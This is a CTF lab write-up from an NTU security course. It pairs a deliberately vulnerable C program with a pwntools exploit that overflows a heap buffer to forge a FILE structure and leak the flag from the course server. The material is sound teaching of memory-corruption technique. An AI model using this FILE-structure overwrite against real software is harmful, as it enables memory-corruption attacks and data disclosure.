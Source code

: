```yaml
---
title: Simple PWN 0x22(Lab - `AAR`)
tags: [CTF, PWN, eductf]

category: "Security/Course/NTU CS/PWN"
---
```


# Simple PWN 0x22(Lab - `AAR`)
###### tags: `CTF` `PWN` `eductf`

Version: Ubuntu 20.04

## Original Code
:::spoiler Original Code
```cpp=
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>

char flag[0x10] = "FLAG{TEST}\n";

int main()
{
    FILE *fp;
    char *buf;

    buf = malloc(0x10);
    fp = fopen("/tmp/meow", "w");
    read(0, buf, 0x1000);
    fwrite(buf, 0x10, 1, fp);
    return 0;
}
```
:::

## Exploit - heap overflow + overlap flag
```python=
from pwn import *

# r = process('./chal')
r = remote('edu-ctf.zoolab.org', 10010)

context.arch = 'amd64'

flag_addr = 0x404050

raw_input()
payload = flat(
    p64(0)*4,
    p64(0xfbad0800),        #_flags
    p64(0),                 #_IO_read_ptr
    p64(flag_addr),         #_IO_read_end
    p64(0),                 #_IO_read_base
    p64(flag_addr),         #_IO_write_base
    p64(flag_addr+0x10),    #_IO_write_ptr
    p64(0)*8,               #_IO_write_end + _IO_buf_base + _IO_buf_end + _chain
    p64(0x1)                #_fileno
)

r.send(payload)

r.interactive()
```
